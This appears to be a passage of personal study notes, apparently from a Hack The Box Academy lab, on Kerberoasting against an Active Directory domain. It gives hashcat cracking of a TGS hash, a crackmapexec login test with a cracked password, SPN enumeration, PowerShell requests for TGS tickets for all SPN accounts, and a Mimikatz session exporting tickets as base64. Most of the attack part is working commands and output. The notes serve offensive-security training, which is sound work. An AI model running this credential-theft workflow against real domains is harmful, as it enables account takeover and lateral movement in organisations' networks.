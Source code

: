 - `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt`  → cracking Ticket offline using Hashcat

- `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!` → testing authentication against a domain controller

# Kerberoasting - From Windows

<aside>
👽 Semi Manual Method

</aside>

- `C:\htb> setspn.exe -Q */*` → lists various available SPNs

- `PS C:\htb> Add-Type -AssemblyName System.IdentityModel`
- `PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
    - The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
    - The `AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
    - [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
    - We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
    - We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

We are requesting TGS tickets for an account mssqlsvc and load them into memory to later extract using Mimikatz

- `PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` → request tickets for all accounts with SPNs set.

Now lets extract tickets from mimikatz

```
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
UUwuaW5sYW5lZnJlaWdodC5sb2NhbDoxNDMzo4IEvzCCBLugAwIBF6EDAgECooIE
<...................SNIP...................>
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist